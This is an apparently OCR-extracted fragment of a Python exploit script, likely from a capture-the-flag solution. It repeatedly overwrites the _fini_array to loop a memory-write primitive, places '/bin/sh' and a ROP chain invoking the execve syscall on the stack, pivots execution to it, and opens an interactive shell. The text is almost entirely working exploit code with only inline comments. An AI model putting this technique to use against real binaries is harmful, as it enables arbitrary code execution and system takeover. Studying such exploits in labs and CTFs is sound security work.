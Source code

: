 ```
leak(1)

# Write over the two entries in _fini_arr table with do_overwrite, and restart the loop
write(finiArrAdr + 8, doOverwrite)
write(finiArrAdr, doOverwrite)
write(csiRipAdr, csuFini)

# Increment stack address of saved rip for __libc_csu_fini due to new iteration of loop
csiRipAdr += 8

# Establish rop gagdets, and "/bin/sh" address
popRdi = pieBase + 0x84fa
popRsi = pieBase + 0xd9f2
popRdx = pieBase + 0x484c5
popRax = pieBase + 0x460ac
syscall = pieBase + 0x917c
binshAdr = doLeakAdr + 0x2aa99b

# 0x00000000000106f3 : add rsp, 0xd0 ; pop rbx ; ret
pivotGadget = pieBase + 0x106f3

# Function which we will use to write Qwords using loop
def writeQword(adr, val):
    global csiRipAdr
    write(adr, val)
    write(csiRipAdr, csuFini)
    csiRipAdr += 8

# first wite "/bin/sh" to the designated place in memory
writeQword(binshAdr, u64("/bin/sh\x00"))

'''
Our ROP Chain will do this:
pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
'''

# write the ROP chain
writeQword(stackLeak + 0xd0, popRdi)
writeQword(stackLeak + 0xd8, binshAdr)
writeQword(stackLeak + 0xe0, popRsi)
writeQword(stackLeak + 0xe8, 0)
writeQword(stackLeak + 0xf0, popRdx)
writeQword(stackLeak + 0xf8, 0)
writeQword(stackLeak + 0x100, popRax)
writeQword(stackLeak + 0x108, 59)
writeQword(stackLeak + 0x110, syscall)


# write the ROP pivot gadget to the return address of do_overwrite, which will trigger the rop chain
write(stackLeak - 0x10, pivotGadget)

# drop to an interactive shell
target.interactive()
```
